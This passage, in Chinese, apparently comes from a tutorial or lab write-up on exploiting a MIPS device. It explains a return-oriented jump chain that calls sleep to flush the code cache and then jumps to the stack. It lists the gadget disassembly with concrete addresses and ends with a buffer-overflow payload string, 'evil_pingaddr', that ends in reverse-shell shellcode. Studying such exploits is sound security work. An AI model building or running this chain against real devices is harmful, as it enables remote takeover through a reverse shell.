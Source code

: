 ### PART6 编写漏洞利用脚本
#### 6.1 mips漏洞利用流程
- mips漏洞利用首先需要`sleep(nS)`更新`codecache`，然后才能正确执行栈上的代码.
- 如果想运行反向shell，流程大致如下：
  - 设置a0=1，跳转到sleep函数
   - 获取栈的地址，跳转到栈上执行代码。
#### 6.2 mips跳转分析
mip常见跳转流程如下
:one: **设置寄存器t9，跳转到寄存器t9**
```mips
move    $t9, $s0
jalr    $t9 ;
```

:two: **函数func完成执行之前，把要跳转的地址address保存在ra寄存器，执行完函数func后跳转**
```mips
move    $t9, $s0   # 函数f()
lw      $ra, 0x20+var_4($sp)  
lw      $s0, 0x20+var_8($sp) 
li      $a0, 2
li      $a1, 1
move    $a2, $zero
jr      $t9        # 执行完f()之后，跳转到address
addiu   $sp, 0x20
```

:three: **漏洞利用**
- 覆盖寄存器`s0 s1 ra` ，`s0`设置为`sleepaddr`的地址，`ra`设置为`addr0（0x2AB2E97C）`
- 跳转到`addr0（0x2AB2E97C）`执行
```mips
move    $t9, $s0  # 设置t9为sleepaddr
lw      $ra, 0x20+var_4($sp)  # 从栈中取数据，设置ra=addr1
lw      $s0, 0x20+var_8($sp)  # 从栈中取数据，设置s0=addr2
li      $a0, 2    # 设置sleep参数为2
li      $a1, 1
move    $a2, $zero
jr      $t9 ;     # 跳转执行sleep(2s), 返回时跳转到addr1
addiu   $sp, 0x20
```
- addr1
```mips
addiu   $s2, $sp, 0x198+var_180  # s2指向栈上
move    $a2, $v1
move    $t9, $s0  # t9=s0
jalr    $t9 ;     # 跳转到addr2
```

- addr2
```mips
move    $t9, $s2 # 跳转到栈上执行
jalr    $t9 ;
evil_pingaddr =“A”*160 +sleep_func_addr+"AAAA"+addr0+
“B”*0x18+addr2+addr1+nop*0x20+reverseshell_shellcode
```
